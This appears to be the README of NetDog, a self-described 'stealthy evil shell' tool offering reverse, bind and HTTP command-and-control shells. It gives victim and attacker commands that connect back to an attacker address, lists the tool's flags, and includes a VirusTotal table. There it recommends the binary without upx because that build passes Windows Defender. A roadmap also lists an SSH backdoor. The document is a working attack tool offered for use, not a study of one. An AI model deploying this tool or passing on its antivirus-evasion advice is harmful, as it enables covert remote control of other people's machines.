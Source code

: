 # NetDog
Mini Stealthy Evil Shell

## Roadmap
- Reverse Shell
    - [x] TCP
    - [x] UDP
- Bind Shell
    - [x] TCP
    - [x] UDP
- HTTP shell
    - [ ] Synchronous
    - [x] Asynchronous
    - [ ] TLS
- Others
    - [ ] IPv6
    - [ ] Encryption
    - [x] Auto reconnect
    - [ ] SSH backdoor server

## Choosing binary
- There are only 2 types: `nd` (linux/amd64) `nd.exe` (windows/amd64)  
- For windows, choose the one without upx to avoid being detected as virus.  

## Reverse shell
```
+--------------------------------+            +--------------------------------+
|                                |            |                                |
|                         victim +------------> attacker (10.1.1.1)            |
| ./nd -host 10.1.1.1 -port 1234 |            | nc -lvnp 1234                  |
|                                |            |                                |
+--------------------------------+            +--------------------------------+
```

## Bind shell
```
+--------------------+            +--------------------+
|                    |            |                    |
|  victim (10.1.1.2) <------------+ attacker           |
|       ./nd -l 1234 |            | nc 10.1.1.2 1234   |
|                    |            |                    |
+--------------------+            +--------------------+
```

## HTTP shell
### Asynchronous
```
+-------------------------+                 +------------------------+
|victim                   |                 |attacker                |
|http client              |                 |http server             |
|                         |                 |                        |
|                         |   find command  |                        |
|                         +----------------->                        |
|            execute <----+                 |                        |
|                         +----------------->                        |
|                         |    response     |                        |
|                         |                 |                        |
|                         |                 |                        |
+-------------------------+                 +------------------------+
```
```bash
./nd -async -m http -server # server
./nd -host $ATTACKERIP -port $ATTACKERPORT -async -m http # client
```

## AV status
2021-05-23 03:13:04 UTC

| type | size | score | windows defender |
| - | - | -| - |
|without upx | 2.2 MB|[4/69](https://www.virustotal.com/gui/file/b042c2498ab6ee36ce998842d4ed4592d46f55026677f1f6e750edf7b6a2411d/detection)| pass|
|with upx | 663 KB|[6/69](https://www.virustotal.com/gui/file/b6f9b09b20cda55d3e87d4f3c74971bffa65781c297ea4742c5987cc69b9b391/detection)| not pass|

## Usage
```
$./nd -h
Usage of ./nd:
  -host string
        Host (default "127.0.0.1")
  -l    Bind mode
  -port string
        Port (default "1234")
  -recon string
        Reconnecting Time (default "15s")
  -shell string
        Unix Shell (default "/bin/sh")
  -u    Enable UDP
```